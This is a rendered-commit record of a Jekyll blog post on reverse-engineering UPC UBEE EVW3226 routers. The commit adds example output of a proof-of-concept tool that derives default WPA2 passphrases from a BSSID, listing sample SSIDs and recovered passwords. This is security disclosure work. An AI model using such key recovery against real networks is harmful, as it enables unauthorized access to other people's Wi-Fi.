

Before and after one commit to yolosec/deadcodeBlog, a Jekyll site: the page built from _posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown, in a window 1280 px wide and 900 px high, scrolled down 24047 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3.

Commit message:
ubee: PoC example

````diff
--- a/_posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown
+++ b/_posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown
@@ -743,6 +743,33 @@ Table below shows how BSSID and input MAC address relates on the example:
  This is how router label looks like for our example:
  [![UBEE label](/static/ubee/ubee_label.jpg)](/static/ubee/ubee_label.jpg)
 
+Our [proof-of-concept](https://github.com/yolosec/TODO) generates the following output
+after entering last 3 bytes of BSSID.
+
+```
+./ubee_keys 123456
+
+================================================================================
+ upc_ubee_keys // WPA2 passphrase recovery tool for UPC%07d UBEE EVW3226 devices
+================================================================================
+by ph4r05, miroc
+
+  your-BSSID: 647C34123456, SSID: UPC3910551, PASS: HAYQQHCS
+
+  near-BSSID: 647C3412344F, SSID: UPC5316036, PASS: OPTXTJKH
+  near-BSSID: 647C34123450, SSID: UPC0624103, PASS: ZVPKYKCI
+  near-BSSID: 647C34123451, SSID: UPC0595666, PASS: NRFJHXDX
+  near-BSSID: 647C34123452, SSID: UPC5434630, PASS: UTVBNYJP
+  near-BSSID: 647C34123453, SSID: UPC2659797, PASS: IVGDQAMI  <-- 2.4 Ghz
+  near-BSSID: 647C34123454, SSID: UPC2152244, PASS: ZVESFKYD
+  near-BSSID: 647C34123455, SSID: UPC2870546, PASS: PXKRLPCC  <-- 5.0 GHz
+  near-BSSID: 647C34123456, SSID: UPC3910551, PASS: HAYQQHCS
+  near-BSSID: 647C34123457, SSID: UPC8366197, PASS: CIIMMAYX
+  near-BSSID: 647C34123458, SSID: UPC9505606, PASS: VRJXAHPE
+  near-BSSID: 647C34123459, SSID: UPC7482035, PASS: CQTJPRCB
+  near-BSSID: 647C3412345A, SSID: UPC3856093, PASS: TUXFTTLL
+```
+
 # Android apps
 
 **RouterKeygen**
````
